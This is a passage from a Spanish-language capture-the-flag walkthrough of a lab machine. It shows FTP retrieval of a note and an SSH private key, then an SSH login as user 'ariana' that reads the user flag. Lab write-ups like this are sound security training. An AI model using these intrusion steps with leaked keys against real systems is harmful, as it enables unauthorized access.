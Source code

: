 ~~~bash
2602 bytes received in 0.00 secs (26.3985 MB/s)
mget note.txt? yes
227 Entering Passive Mode (192,168,0,16,246,222).
150 Opening BINARY mode data connection for note.txt (75 bytes).
226 Transfer complete.
75 bytes received in 0.00 secs (1.6256 MB/s)
~~~

Aquí tras un breve reconocimiento descargamos lo que parece ser una nota y una clave privada de SSH.

~~~
❯ cat note.txt

Wow you are here 

ariana won't happy about this note 

sorry ariana :( 
~~~


### Puerto 22

Parece que es una pista de que el usuario es "ariana", así que vamos a tratar de conectarnos vía SSH con la clave privada. Pero antes de eso, hay que acordarse de poner los permisos adecuados a la clave:

``❯ chmod 600 id_rsa``

Ahora sí nos conectamos y realizamos pequeño tratamiento:

~~~
❯ ssh -i id_rsa ariana@192.168.0.16
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 10 13:03:23 2020 from 192.168.18.70
ariana@pwned:~$ export TERM=xterm
ariana@pwned:~$ export SHELL=bash
ariana@pwned:~$ ls
ariana-personal.diary  user1.txt
ariana@pwned:~$ cat user1.txt
congratulations you Pwned ariana 

Here is your user flag ↓↓↓↓↓↓↓

(FLAG)

Try harder.need become root
~~~
